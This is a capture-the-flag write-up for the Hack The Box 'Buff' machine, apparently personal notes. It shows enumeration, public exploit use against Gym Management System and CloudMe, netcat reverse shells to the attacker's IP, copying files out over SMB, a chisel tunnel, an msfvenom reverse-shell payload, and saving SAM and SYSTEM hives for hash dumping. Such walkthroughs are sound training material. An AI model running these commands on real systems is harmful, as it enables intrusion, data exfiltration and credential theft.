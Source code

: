 # buff

Buff ran on `10.10.10.198`. My IP was `10.10.14.69`

> enumeration with Kali

```sh
openvpn 00be.ovpn # connect to the network.
ping 10.10.10.198 # make sure Buff is up.

cd /root/projects && mkdir buff
cd buff

echo '10.10.10.198 buff' >> /etc/hosts
sup 10.10.10.198 # or buff
# as soon as one scan is done, open new terminal and run:
so # sets p (ports) and h (host) variable from scan result.

webp=8080 # where we foud a webserver.
tail -F dirb.log | grep --line-buffered ^== # blocking.
dirb http://$h:$webp -o dirb.log # look for interesting folders.

# in the kali VM we can reach the vuln box:
# (via the openvpn connection)
curl 10.10.10.198:8080 # works.

# If we want to use the VM host to browse it:
# on the host we will use local port forwarding:
h=10.10.10.198
p=8080
ssh -N kali -L localhost:80:$h:$webp
# now we can browse it with a browser under: http://localhost/ on the VM host.
# use Wappalyzer.
# browse around -> Contact
#   -> made using Gym Management Software 1.0

searchsploit gym management # systems, not software!
# took me a bit to figure out the different name.
# https://www.exploit-db.com/exploits/48506

# Gym Management System 1.0 - Unauthenticated Remote Code Execution | php/webapps/48506.py
cp /usr/share/exploitdb/exploits/php/webapps/48506.py .
```

> getting a foothold with Kali

```sh
# exploit the webapp for a webshell (a weird one):
rlwrap python2 48506.py http://$h:$webp/
# rlwrap makes this much more bearable but we still can't traverse directories.
# for missing requirements: see the main readme.
```

> enumeration on Buff via webshell

```sh
dir # =ls
  # all the tools people leave laying around...
whoami /all # =id
  # buff\shaun
systeminfo # =uname
  # Win 10
  # x64
set # =env
  # userdomain: BUFF
tasklist # =ps
ipconfig /all # =ifconfig
```

> on Kali

```sh
mkdir share && cd share

# git files:
cp $(locate nc.exe) . # don't forget about updatedb when using locate!
cp /opt/chisel*win* chisel.exe # does not come with Kali.

impacket-smbserver share . -smb2support# blocking.
# alternatively deposit files via a webserver.
rlwrap nc -nlvp 42424 # blocking. will open cmd.exe for a proper reverse shell in a bit.
# rlwrap also gives us a reverse search history!
```

> more enumeration on Buff via webshell

```sh
# copy netcat to Buff.
copy \\10.10.14.69\\share\\nc.exe .
copy \\10.10.14.69\\share\\chisel.exe .

# let's get a proper shell!
nc.exe 10.10.14.69 42424 -e cmd.exe
# alternatives: chisel.exe, plink.exe
# you don't even need to download netcat:
\\10.10.14.69\\share\\nc.exe 10.10.14.69 42424 -e cmd.exe # better!

# or from kali:
curl 'http://buff:8080/upload/kamehameha.php?telepathy=nc.exe%2010.10.14.69%2042424%20-e%20cmd'
```

> on Buff via proper reverse shell

```sh
# from proper shell.
dir
cd ../../../../../../..
robocopy /e xampp \\10.10.14.69\\share # takes forever.
# search for sql lines with: ag sql --color | less

# ---

# while that runs open a second webshell and
# upgrade it via reverse shell method.

cd ../../../../..
dir users
cd users/shaun/desktop
type user.txt
# User flag:
# 5302b97d72d2fd625f1d2d0606ba2d5a
copy user.txt \\10.10.14.69\\share

cd %temp%
mkdir oobe # let's create our own little folder!
cd oobe

# todo: copy this to your kali share folder, then:
copy \\10.10.14.69\\share\\winpeas.exe .
winpeas > winpeas.log

systeminfo > systeminfo.log
tasklist /v > tasklist.log
netstat -aon > netstat.log
# netstat -aon | findstr LISTEN | findstr 127

copy *.log \\10.10.14.69\\share /y
```

> take a look at the logs on Kali

```sh
# check out the winpeas log:
less -R winpeas.log # read it yourself.
grep CVE --binary-files=text winpeas.log # get all CVEs.

# this seems a bit redundant after winpeas:
python /opt/Windows-Exploit-Suggester/windows-exploit-suggester.py \
 --database 2020-10-18-mssb.xls \
 --systeminfo sysminfo.log \
 > exploits.log

grep -i listening netstat.log # careful, only for english versions!
```

I think at this point you are supposed to find the icloudme setup file
in the download folder and deduce that one of the locally bound services
is just that. I did not, had to look up a hint.

iCloudme 1.11.2 is vulnerable to this exploit:
* https://www.exploit-db.com/exploits/48389

> listen on Kali

```sh
/opt/chisel_1.7.1_linux_386 server --port 12345 --reverse
```

> connect from Buff

```sh
chisel.exe client 10.10.14.69:12345 R:8888:127.0.0.1:8888
```

> on Kali
```sh
nc -lnvp 3667 # for reverse shell.

# we don't want to launch the calculator so let's update the payload:
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.69 LPORT=3667 -b '\x00\x0A\x0D' -f python -v payload > payload
cp 48389.py 48389_new-payload.py

# replace the payload in our new copy.

# run it:
python2 48389_new-payload.py
# now we have a root shell!
```


> for fun: dump hashes as admin
```sh
# as windows admin:
reg.exe save hklm\sam sam.reg
reg.exe save hklm\security security.reg
reg.exe save hklm\system system.reg
```
